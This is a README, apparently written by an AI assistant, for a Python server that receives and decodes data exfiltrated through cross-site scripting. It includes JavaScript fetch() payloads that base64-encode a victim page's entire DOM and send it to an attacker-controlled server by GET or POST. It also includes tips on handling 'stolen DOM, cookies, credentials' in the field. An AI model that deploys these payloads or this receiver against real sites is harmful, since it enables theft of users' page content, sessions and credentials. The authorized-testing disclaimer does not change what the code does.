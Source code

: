 
# 🕵️ XSS Exfiltration Receiver

This is a Python-based threaded HTTP server designed to **receive and decode exfiltrated data** (often from XSS payloads). 
It supports recursive Base64 and URL decoding, HTML saving, raw logging, and JSON-based metadata output — optionally with IP whitelisting.

---

## 🚀 Features

- ✅ URL + Base64 recursive decoding
- ✅ Decoded HTML auto-saving
- ✅ Raw payload saving
- ✅ JSON structured logs (for JIRA/ELK/etc.)
- ✅ Optional IP whitelisting
- ✅ Multithreaded (safe concurrent handling)
- ✅ Works with GET, POST, OPTIONS

---

## 🧪 How to Use

### 1. 🔧 Start the Server

```bash
python3 xssrecv.py --port 8080 --show --json-log --allow-ip 127.0.0.1
````

| Flag         | Purpose                                    |
| ------------ | ------------------------------------------ |
| `--port`     | Server port (default is 80)                |
| `--show`     | Print decoded HTML to terminal             |
| `--json-log` | Save decoded logs as structured JSONL file |
| `--allow-ip` | Restrict access to specific IP addresses   |

---

### 2. 🧨 Send a Payload to the Victim

#### Example Payload (JavaScript)

```js
fetch("http://YOUR_SERVER_IP:8080/?data=" + btoa(document.documentElement.outerHTML));
```

You can also encode the payload even further using `encodeURIComponent`:

```js
fetch("http://YOUR_SERVER_IP:8080/?data=" + encodeURIComponent(btoa(document.documentElement.outerHTML)));
```

#### POST Variant

```js
fetch("http://YOUR_SERVER_IP:8080", {
  method: "POST",
  body: "data=" + encodeURIComponent(btoa(document.documentElement.outerHTML)),
  headers: {
    "Content-Type": "application/x-www-form-urlencoded"
  }
});
```

---

### 3. 📂 Output Behavior

When a payload is received:

* ✅ The parameter (e.g., `data=...`) is extracted and recursively decoded.
* ✅ If it contains `<html>` or `<!doctype`, the HTML is saved to `decoded_html/decoded_TIMESTAMP.html`.
* ✅ Raw query string is saved to `decoded_html/raw_TIMESTAMP.txt`.
* ✅ If `--json-log` is enabled, a JSON log entry is written to `decoded_html/log.jsonl`.

---

### 4. 🔍 Example Request/Output Flow

#### Example Request:

```
GET /?data=Jmx0O2h0bWwmbHQ7Ym9keT5UZXN0PC9ib2R5Pg==
```

#### Console Output:

```
[+] Raw (data): &lt;html&gt;&lt;body&gt;Test</body>
    Layer 1 (url): ...
    Layer 2 (b64): <html><body>Test</body>
[+] Final preview: '<html><body>Test'
[+] Saved HTML: decoded_html/decoded_20250705T204000Z.html
```

#### Example JSON Log:

```json
{
  "timestamp": "20250705T204000Z",
  "ip": "127.0.0.1",
  "headers": {
    "User-Agent": "...",
    "Referer": null
  },
  "raw": "data=Jmx0O2h0bWwmbHQ7Ym9keT5UZXN0PC9ib2R5Pg==",
  "decoded_layers": [
    ["url", "Jmx0O2h0bWwmbHQ7Ym9keT5UZXN0PC9ib2R5Pg=="],
    ["b64", "<html><body>Test</body>"]
  ],
  "final_preview": "<html><body>Test</body>",
  "saved_html": "decoded_html/decoded_20250705T204000Z.html"
}
```

---

## 🧷 Tips for Use in XSS

* Encode exfil payloads with `btoa()` (Base64) and optionally `encodeURIComponent()` for extra URL safety.
* Use this tool to debug and analyze stolen DOM, cookies, credentials, etc.
* Always use `HTTPS` in real-world testing to avoid browser blocks.
* Whitelist only your IP (`--allow-ip`) for safe use in the field.

---

## ⚠️ Legal Disclaimer

This tool is intended for **educational and authorized penetration testing purposes only**. Do **not** use this on systems you do not own or have explicit permission to test.

---

## 🛠 TODO / Ideas

* [ ] Optional webhook forwarding of decoded data
* [ ] TLS/HTTPS support via cert
* [ ] Replay decoded HTML in browser viewer mode

---

## 📎 License

MIT — use responsibly.

```

---

Let me know if you'd like a version of the README that includes screenshots, Docker instructions, or GitHub Actions for deployment.
```
